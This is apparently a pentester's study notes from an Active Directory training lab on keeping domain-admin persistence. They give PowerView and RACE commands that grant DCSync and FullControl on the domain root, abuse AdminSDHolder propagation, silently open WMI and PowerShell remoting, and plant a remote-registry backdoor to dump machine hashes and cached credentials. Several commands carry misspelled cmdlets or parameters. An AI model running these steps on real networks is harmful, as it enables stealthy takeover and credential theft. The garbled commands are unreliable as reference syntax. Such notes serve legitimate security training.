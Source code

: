 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#powershell
- With DA privs, the ACL of the domain root can be modified to provide usefull rights  like FullControl or the ability to run DCSync.
```powershell
# Give yourself Fullcontrol over the root domain object
Add-ObjectAcl -TargetDisguishedName 'DC=mydomain,DC=local' -PrincipalSamAccountName doctordragon -Rights All -Verbose
# Give yourself DCSync rights over the root domain object
Add-ObjectAcl -TargetDisguishedName 'DC=mydomain,DC=local' -PrincipalSamAccountName doctordragon -GUIDRight DCSync -Verbose
```
# AdminSDHolder
- An object that holds a blueprint of ACLs for certain built-in privileged group called Protected Groups
- A Security Descriptor Propagator (SDPROP) runs every hour and overwrites the ACL from this container to all the member of the protected group.
### Protected Groups
- Account Operators
- Backup Operators
- Server Operators
- Print Operators
- Domain Admins
- Replicator
- Enterprise Admins
- Domain Controllers
- Read-only Domain Controllers
- Schema Admins
- Administrators
#### Well Known Groups for Abuse
- Account Operator - Cannot modify DA/EA/BA groups. Can modify nested groups within these groups
- Backup Operator - Backup GPO, edit or add SID of controlled account to a privileged group and restore
- Server Operators - Run a command as SYSTEM (using disabled browser service)
- Print Operator - copy ntds.dit backup, load device drivers
### AdminSDHolder Abuse
- If we can add our user to the AdminSDHolder object and give ourselves full control, the ACLs will propagate to all the protected objects and we will have full control over the protected objects.
```powershell
# Powerview module to add ACL to the AdminSDHolder group
Add-DomainObjectAcl -TargetIdneitity 'CN=AdminSDHolder, CN=System, DC=dollarcorp, DC=moneycorp, DC=local' -PrincipalIdenitty student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# We can change all to be ResetPassword,WriteMembers
# Run SDPropagator
Invoke-SDPrpagator -timeoutMinutes 1 -showProgrss -Verbose

# We can veryfiy the domain admin privs using powerview
Get-DomainObjectAcl -Identity 'Domain  Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"} 
``` 
# Securable Objects
### Security Descriptor
- The SDDL (Security Descriptor Definition Language) defines the format used to descibe a security descriptor. SDDL uses ACE string for SACL and DACL.
```powershell
ace_type;ace_flag;rights;object_guid;inherit_object_guid;accountSID
```

- By default, reguars users can't use remote WMI or Powershell remoting.
- We can edit the security descriptor or the remote WMI and DCOM Object to provide ourselves full control over those object which can let us run WMI and DCOM remotely. This can be done by giving ourselves rights to connect to DCOM and rights to the namespace.
1. DCOM: Component Serivces -> My Computer ->Properties ->  COM Security -> Edit Links -> Add User
2. WMI: Computer Management -> WMI Control -> Properties -> Security -> Add User
- This is useful for maintaining very silent persistence, as this will only result in a normal logon in the DC logs, along with every other user logons.
This can be done by using the RACE toolkit
```powershell
Set-RemoteWMI -SamAccountName studentx -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

Set-RemotePSRemoting -SamAccountName studentx -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose

```
# Remote Registry
As a domain admin, we can use the `RACE` toolkit, to modify some registry keys, so that a regular user can:
- Retrieve machine account hash.
- Retrieve local account hash.
- Retrieve domain cached credentials.
```powershell
# Modify Regsitry keys
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee drdragon -verbose

# retrieve machine accout hash
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
Get-RemoteCachedCrednetials -ComputerName dcorp-dc -Verbose
```